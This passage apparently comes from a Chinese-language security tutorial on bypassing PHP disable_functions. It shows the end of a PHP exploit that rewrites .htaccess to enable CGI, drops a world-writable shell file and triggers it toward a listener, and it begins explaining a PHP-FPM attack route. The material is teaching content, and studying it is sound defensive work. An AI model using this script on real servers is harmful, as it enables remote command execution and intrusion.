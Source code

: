 ```php
        checkEnabled("Is writable",$writable,"Yes","No");
        checkEnabled("htaccess working",$htaccess,"Yes","No");
    if(!($modcgi && $writable && $htaccess))
    {
        echo "Error. All of the above must be true for the script to work!"; //abort if not
    }
    else
    {
        checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.
        checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGInAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension
        checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file
        checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx
        echo "Executing the script now. Check your listener <img src = 'shell.dizzle' style = 'display:none;'>"; //call the script
    }
}
?>
```

### 2.5.4 利用蚁剑中的`Apache_Mod_CGI`

在蚁剑中有该绕过disable_functions的插件：

![image-20210525155853577](https://cdn.jsdelivr.net/gh/Qiangshen01/SecurityLearning/Web/bypass/Disable_functions/images_20210525155940.png)

点击开始按钮后，成功之后会创建一个新的虚拟终端，在这个新的虚拟终端中即可执行命令了。

[[De1CTF2020]check in](https://github.com/De1ta-team/De1CTF2020/tree/master/writeup/web/check in) 这道题利用的便是这个思路，常见于文件上传中。

## 2.6 通过攻击 `PHP_FPM`

### 2.6.1 使用条件

- Linux 操作系统
- PHP-FPM
- 存在可写的目录，需要上传 `.so` 文件

### 2.6.2 原理简述

既然是利用PHP-FPM，我们首先需要了解一下什么是PHP-FPM，研究过apache或者nginx的人都知道，早期的Web服务器负责处理全部请求，其接收到请求，读取文件，然后传输过去。换句话说，早期的Web服务器只处理Html等静态Web资源。

但是随着技术发展，出现了像PHP等动态语言来丰富Web，形成动态Web资源，这时Web服务器就处理不了了，那就交给PHP解释器来处理吧！交给PHP解释器处理很好，但是，PHP解释器该如何与Web服务器进行通信呢？为了解决不同的语言解释器（如php、python解释器）与Web服务器的通信，于是出现了CGI协议。只要你按照CGI协议去编写程序，就能实现语言解释器与Web服务器的通信。如PHP-CGI程序。

其实，在上一节中我们已经了解了CGI以及Apache Mod CGI方面的知识了，下面我们再来继续补充一下。

#### 2.6.2.1 Fast-CGI
